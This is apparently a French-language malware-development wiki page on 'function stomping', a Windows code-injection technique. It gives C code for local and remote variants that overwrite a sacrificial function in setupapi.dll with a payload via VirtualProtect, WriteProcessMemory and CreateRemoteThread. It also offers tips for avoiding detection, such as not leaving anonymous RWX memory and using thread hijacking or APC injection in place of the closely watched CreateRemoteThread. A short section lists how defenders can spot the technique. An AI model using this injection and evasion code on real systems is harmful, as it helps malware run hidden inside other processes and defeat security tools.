

# Function stomping

Le *function stomping* consiste à écraser le code d'une fonction existante avec le payload. La fonction perd son comportement d'origine et exécute à la place la logique injectée. Comme l'[[Injection par mapping]], cette technique évite `VirtualAlloc`/`VirtualAllocEx` et ne crée aucune nouvelle région mémoire exécutable : le payload prend la place d'une fonction déjà présente.

## Le principe

« Stomping » désigne l'action de remplacer le contenu d'une fonction ou d'une structure par autre chose. Ici, on écrase les octets du code d'une fonction sacrificielle pour y placer le payload, puis on appelle cette fonction. Elle exécute alors le payload au lieu de son code initial.

Deux conséquences pratiques :

- La fonction ciblée devient inutilisable pour son usage normal, sauf pour exécuter le payload.
- L'adresse utilisée est celle d'une fonction légitime, chargée depuis une DLL elle-même légitime : rien ne ressemble à une allocation suspecte.

## Choisir la fonction cible

Toute la difficulté est là. Écraser une fonction très utilisée provoque une exécution incontrôlée du payload ou un plantage. Il faut donc éviter les exports de `ntdll.dll`, `kernel32.dll` et `kernelbase.dll`, à la base de la quasi-totalité des traitements Windows. On préfère une fonction peu sollicitée, par exemple `MessageBox`, rarement appelée par le système ou les applications.

Règle d'usage : si la fonction cible est `MessageBoxA`, le binaire ne doit l'appeler **qu'une seule fois**, au moment de déclencher le payload. Tout appel ultérieur exécuterait à nouveau le payload sur une fonction dont le code n'existe plus.

## Variante locale

L'exemple cible `SetupScanFileQueueA`, exporté par `Setupapi.dll`. Fonction volontairement anodine, son écrasement est sans conséquence. On la localise en deux temps : `LoadLibraryA` pour charger la DLL, puis `GetProcAddress` pour obtenir son adresse.

L'écriture se fait en trois mouvements : passer la région en lecture-écriture (`VirtualProtect` en `PAGE_READWRITE`), copier le payload, puis remettre la région exécutable (`RX` ou `RWX`).

```c
#define SACRIFICIAL_DLL   "setupapi.dll"
#define SACRIFICIAL_FUNC  "SetupScanFileQueueA"

BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {

    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect [RW] Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    memcpy(pAddress, pPayload, sPayloadSize);

    if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect [RWX] Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    return TRUE;
}
```

Résolution dynamique puis exécution :

```c
hModule = LoadLibraryA(SACRIFICIAL_DLL);
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);

WritePayload(pAddress, Payload, sizeof(Payload));

// Appel de la fonction écrasée : elle exécute le payload
hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
    WaitForSingleObject(hThread, INFINITE);
```

### Liaison statique par pragma

Au lieu du duo `LoadLibrary`/`GetProcAddress`, on peut lier la DLL statiquement. La directive de compilation place la DLL dans l'IAT (voir [[Dissimulation de l'IAT]], où l'objectif est inverse) :

```c
#pragma comment (lib, "Setupapi.lib")   // ajoute setupapi.dll à l'Import Address Table
```

La fonction se récupère alors avec l'opérateur d'adresse, ce qui simplifie le code :

```c
printf("[+] Address Of \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);

WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload));

hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
if (hThread != NULL)
    WaitForSingleObject(hThread, INFINITE);
```

## Variante distante

Le point clé : les DLL qui implémentent les API Windows sont partagées par tous les processus qui les utilisent. Une fonction exportée occupe donc **la même adresse dans chaque processus**, alors que l'adresse de base de la DLL, elle, varie d'un processus à l'autre à cause de l'ASLR.

Exemple : deux processus A et B partagent `Kernel32.dll`, dont la base diffère chez l'un et chez l'autre. Pourtant `VirtualAlloc`, exporté par cette DLL, se trouve à la même adresse dans les deux. C'est cette invariance qui rend le stomping distant possible.

Condition impérative : la DLL exportant la fonction ciblée doit **déjà être chargée** dans le processus cible. Pour viser `SetupScanFileQueueA` (exporté par `Setupapi.dll`), la cible doit avoir `Setupapi.dll` en mémoire, sinon l'écriture vise une adresse inexistante.

Le code local s'adapte avec les équivalents distants : `VirtualProtectEx`, `WriteProcessMemory`, et `CreateRemoteThread` pour déclencher l'exécution.

```c
#define SACRIFICIAL_DLL   "setupapi.dll"
#define SACRIFICIAL_FUNC  "SetupScanFileQueueA"

BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {

    DWORD  dwOldProtection     = NULL;
    SIZE_T sNumberOfBytesWritten = NULL;

    if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtectEx [RW] Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)
        || sPayloadSize != sNumberOfBytesWritten) {
        return FALSE;
    }

    if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtectEx [RWX] Failed With Error : %d \n", GetLastError());
        return FALSE;
    }

    return TRUE;
}
```

Le programme récupère d'abord le handle de la cible (voir [[Énumération des processus]]), charge localement la DLL pour obtenir l'adresse de la fonction, écrit le payload à cette adresse dans le processus distant, puis exécute :

```c
GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess);

hModule  = LoadLibraryA(SACRIFICIAL_DLL);
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);   // même adresse dans la cible

WritePayload(hProcess, pAddress, Payload, sizeof(Payload));

hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
    WaitForSingleObject(hThread, INFINITE);
```



## Comparaison local / distant

| Aspect | Local | Distant |
|---|---|---|
| Écriture | `memcpy` via `VirtualProtect` | `WriteProcessMemory` via `VirtualProtectEx` |
| Prérequis DLL | Chargement possible à la volée | DLL déjà chargée dans la cible |
| Adresse de la fonction | Obtenue localement | Identique dans la cible (DLL partagées) |
| Déclenchement | `CreateThread` sur la fonction | `CreateRemoteThread` sur la fonction |
| Allocation mémoire | Aucune | Aucune |

## Détection et limites

- Le payload n'occupe pas de région privée nouvelle : il réside dans une section de DLL légitime, ce qui brouille la recherche de mémoire `RWX` anonyme.
- Reste visible une modification des octets d'une section de code, suivie d'un changement de protection de page — voir [[Mécanismes de détection]] et [[Contournement des antivirus]].
- Les solutions qui vérifient l'intégrité des sections de code des DLL chargées repèrent l'écrasement, et les points d'arrêt matériels sur les pages exécutables le confirment.
- Cibler une fonction trop sollicitée casse le processus ; cibler une fonction absente de la cible en distant fait échouer l'écriture.
- En distant, `CreateRemoteThread` demeure une API fortement surveillée ; on peut lui préférer le [[Détournement de threads]] ou une injection APC pour déclencher le payload à l'adresse stompée.
